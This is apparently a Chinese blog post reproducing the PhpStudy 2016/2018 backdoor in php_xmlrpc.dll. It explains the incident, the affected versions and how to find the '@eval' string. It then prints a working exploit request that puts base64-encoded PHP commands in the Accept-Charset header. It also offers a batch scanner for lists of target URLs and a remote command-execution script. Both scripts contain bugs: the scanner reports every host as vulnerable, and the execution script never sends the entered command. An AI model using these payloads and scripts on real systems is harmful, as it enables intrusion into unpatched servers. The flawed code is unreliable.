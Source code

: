 ﻿---
title: PhpStudy2018后门漏洞预警及漏洞复现&检测和执行POC脚本
date: 2020-06-03 17:44:51
categories: 
- 漏洞复现
tags: 
- 漏洞
- 后门
- POC
- PhpStudy2018
- 漏洞复现
---




## phpstudy介绍
Phpstudy是国内的一款免费的PHP调试环境的程序集成包，其通过集成Apache、PHP、MySQL、phpMyAdmin、ZendOPtimizer不同版本软件于一身，一次性安装无需配置即可直接使用，具有PHP环境调试和PHP开发功能。由于其免费且方便的特性，在国内有着近百万的PHP语言学习者和开发者用户

## 后门事件
2018年12月4日，西湖区公安分局网警大队接报案，某公司发现公司内有20余台计算机被执行危险命令，疑似远程控制抓取账号密码等计算机数据回传大量敏感信息。通过专业技术溯源进行分析，查明了数据回传的信息种类、原理方法、存储位置，并聘请了第三方鉴定机构对软件中的“后门”进行司法鉴定，鉴定结果是该“后门”文件具有控制计算机的功能，嫌疑人已通过该后门远程控制下载运行脚本实现收集用户个人信息。在2019年9月20日，网上爆出phpstudy存在“后门”。作者随后发布了声明。
于是想起自己安装过phpstudy软件，赶紧查一下是否存在后门文件，结果一看真存在后门，学个PHP真是不容易，软件被别人偷偷安装了后门。

## 影响版本
目前已知受影响的phpstudy版本
phpstudy 2016版php-5.4
phpstudy 2018版php-5.2.17
phpstudy 2018版php-5.4.45

## 后门检测分析
通过分析，后门代码存在于\ext\php_xmlrpc.dll模块中
phpStudy2016和phpStudy2018自带的php-5.2.17、php-5.4.45
phpStudy2016路径
`php\php-5.2.17\ext\php_xmlrpc.dll`
`php\php-5.4.45\ext\php_xmlrpc.dll`
phpStudy2018路径
`PHPTutorial\php\php-5.2.17\ext\php_xmlrpc.dll`
`PHPTutorial\php\php-5.4.45\ext\php_xmlrpc.dll`
用notepad打开此文件查找@eval，文件存在`@eval(%s(‘%s’))`证明漏洞存在，如图：
![](1.png)


## phpstudy 2018漏洞复现

启动phpstudy，选择php-5.2.17版本，使用burpsuit抓包（如果是本机127.0.0.1环境，代理去掉本地过滤，否则抓不到包）。

![](2.png)

大佬给出exp如下
```
GET /index.php HTTP/1.1
Host: yourip.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.25 Safari/537.36 Core/1.70.3730.400 QQBrowser/10.5.3805.400
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip,deflate
Accept-Charset:这里就是你要执行的代码命令（经过base64加密）
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
我们修改数据包查看命令`phpinfo();`执行情况

![](3.png)

继续修改数据包查看命令`echo system("net user");`执行情况

![](4.png)


漏洞复现成功
ps：我复现的时候这里有一个坑，就是直接repeater过来的数据包`Accept-Encoding`字段的参数是`gzip, deflate`,`deflate`前面有一个空格，去掉就可以成功执行命令了

## 后门检测脚本

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-

import gevent
from gevent import monkey

gevent.monkey.patch_all()
import requests as rq


def file_read(file_name="url.txt"):
    with open(file_name, "r") as f:
        return [i.replace("\n", "") for i in f.readlines()]


def check(url):
    '''
    if "http://" or "https://" not in url:
        url = "https://" + url
    '''
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36 Edg/77.0.235.27',
        'Sec-Fetch-Mode': 'navigate',
        'Sec-Fetch-User': '?1',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3',
        'Sec-Fetch-Site': 'none',
        'accept-charset': 'ZWNobyBlZVN6eHU5Mm5JREFiOw==',  # 输出 eeSzxu92nIDAb
        'Accept-Encoding': 'gzip,deflate',
        'Accept-Language': 'zh-CN,zh;q=0.9',
    }
    try:
        res = rq.get(url, headers=headers, timeout=20)
        if res.status_code == 200:
            if res.text.find('eeSzxu92nIDAb'):
                print("[存在漏洞] " + url)
    except:
        print("[超时] " + url)


if __name__ == '__main__':
    print("phpStudy 批量检测 (需要 gevent,requests 库)")
    print("使用之前，请将URL保存为 url.txt 放置此程序同目录下")
    input("任意按键开始执行..")
    tasks = [gevent.spawn(check, url) for url in file_read()]
    print("正在执行...请等候")
    gevent.joinall(tasks)
    wait = input("执行完毕 任意键退出...")

```

## 后门执行脚本

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-

import requests
import base64


def backdoor(url, command="system('calc.exe');"):
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36 Edg/77.0.235.27',
        'Sec-Fetch-Mode': 'navigate',
        'Sec-Fetch-User': '?1',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3',
        'Sec-Fetch-Site': 'none',
        'accept-charset': 'c3lzdGVtKCdjYWxjLmV4ZScpOw==',
        'Accept-Encoding': 'gzip,deflate',
        'Accept-Language': 'zh-CN,zh;q=0.9',
    }
    command = base64.b64encode(command.encode('utf-8'))
    command = str(command, 'utf-8')
    result = requests.get(url, headers=headers, verify=False)
    if result.status_code == "200":
        print("执行完成")
    a = input("任意键退出...")


url = input("输入URL(例如:http://127.0.0.1:228/xx.php)\n")
command = input("输入命令 默认为 system('calc.exe'); (不想输入直接回车)\n")
backdoor(url, command)

```

## 参考
PhpStudyGhost后门供应链攻击事件及相关IOC
https://www.freebuf.com/column/214946.html
PHPStudy后门分析+复现&附批量Py脚本
https://mp.weixin.qq.com/s/Y29wifB6XTDcJN-RPDMwxg
phpstudy后门文件分析以及检测脚本
https://mp.weixin.qq.com/s/dIDfgFxHlqenKRUSW7Oqkw
Phpstudy官网于2016年被入侵，犯罪分子篡改软件并植入后门
https://mp.weixin.qq.com/s/CqHrDFcubyn_y5NTfYvkQw
phpstudy后门文件分析以及检测脚本
https://mp.weixin.qq.com/s/dIDfgFxHlqenKRUSW7Oqkw
phpStudy隐藏后门预警
https://www.cnblogs.com/0daybug/p/11571119.html